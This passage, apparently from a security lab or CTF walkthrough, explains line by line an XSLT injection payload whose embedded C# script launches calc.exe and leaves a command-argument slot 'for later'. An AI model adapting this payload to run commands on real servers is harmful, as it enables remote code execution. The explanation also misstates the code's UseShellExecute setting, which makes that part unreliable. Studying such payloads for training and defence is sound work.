 -   Let's break this down so we both understand it better:


#### Key Components of the Payload - Code Breakdown: {#key-components-of-the-payload-code-breakdown}

-   **XML Declaration**:
    ```xml
    '<?xml version="1.0"?>'
    ```

    -   Declares the XML version being used.

-   **XSLT Stylesheet Declaration**:
    ```xml
    <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">
    ```

    -   This starts the XSLT stylesheet with necessary namespaces for the transformation.
    -   `xmlns:msxsl`:
        -   Allows the usage of Microsoft's XSLT extensions.
    -   `xmlns:csharp_user`:
        -   Custom namespace for the embedded `C#` script.

-   **Embedded C# Script**:
    ```xml
    <msxsl:script language="C#" implements-prefix="csharp_user">
    ```

    -   This embeds a `C#` script inside the XSLT.
    -   `language="C#"`:
        -   Specifies that the script is written in `C#`
    -   `implements-prefix="csharp_user"`:
        -   Links the script to the `csharp_user` namespace.

-   `C#` **Function to Execute Code**:
    ```csharp
    public string xml() {
        string cmd = "";
        System.Diagnostics.Process proc = new System.Diagnostics.Process();
        proc.StartInfo.FileName = "calc.exe";
        proc.StartInfo.Arguments = cmd;
        proc.StartInfo.UseShellExecute = true;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();
        string output = proc.StandardOutput.ReadToEnd();
        return output;
    }
    ```

    -   This function named `xml()` is designed to execute the `calc.exe` program:
        -   **Command Line Args**: `string cmd = "";` as we can see this allows us pass command line arguments to the program being called, it's empty as we do not need to pass args to `calc.exe`, but we can use this for later.
        -   **Process creation**: Uses the `System.Diagnostics.Process` class to launch an external process (`calc.exe`).
        -   **Define the process to launch**: `proc.StartInfo.FileName = "calc.exe"` defines calc.exe as the process to launch.
        -   **Shell behavior**: `UseShellExecute = false` ensures that the process doesn't require a shell to run.
        -   **Redirect Output**: `RedirectStandardOutput = true` captures the output (although `calc.exe` doesn't produce output in this context).
            **Return Output**: `return output;` The function finally returns the process output.
